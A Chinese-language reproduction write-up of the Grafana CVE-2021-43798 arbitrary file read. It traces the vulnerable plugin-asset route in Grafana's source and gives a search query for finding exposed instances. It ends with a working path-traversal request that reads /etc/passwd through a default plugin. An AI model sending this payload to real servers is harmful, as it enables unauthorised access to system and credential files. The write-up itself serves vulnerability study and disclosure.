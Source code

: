 # Grafana plugins 任意文件读取漏洞 CVE-2021-43798

## 漏洞描述

Grafana存在任意文件读取漏洞，通过默认存在的插件，可构造特殊的请求包读取服务器任意文件

## 漏洞影响

<a-checkbox checked>Grafana 8.x</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Grafana_Labs-公司产品"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638885570573-25d2b257-36c8-43a7-bf8f-f552193f6649.png)

下载源码进行本地分析

```php
https://codeload.github.com/grafana/grafana/zip/refs/tags/v8.3.0
```

根据漏洞找到 api.go 中的请求路径

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638885654432-3d019c1a-81fd-429d-9667-6c1e829b694e.png)

```php
r.Get("/public/plugins/:pluginId/*", hs.getPluginAssets)
```

跟踪对应的 getPluginAssets 方法

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638885718491-08933f1d-ee0f-4eaa-b5d7-859c4889d2b7.png)

从请求路径中获取 `/public/plugins/` 后的参数赋值给 `pluginID,` 然后再被拼接至 `pluginFilePath` 进入文件读取片段

```go
requestedFile := filepath.Clean(web.Params(c.Req)["*"])
pluginFilePath := filepath.Join(plugin.PluginDir, requestedFile)
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638886241407-a47b7e8e-47fb-4481-8719-c532b51a5fa0.png)

也就是说通过默认存在的插件来拼接文件路径构造请求进行文件读取

```go
plugin, exists := hs.pluginStore.Plugin(c.Req.Context(), pluginID)
if !exists {
		c.JsonApiErr(404, "Plugin not found", nil)
		return
	}
```

插件路径 `public/app/plugins/panel`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638886549610-16b0f045-996a-4e0d-86db-4b6c83a3a989.png)

构造请求

```go
/public/plugins/welcome/../../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638886726559-aa047e67-0bca-4b8c-bb07-4a9af6226e6e.png)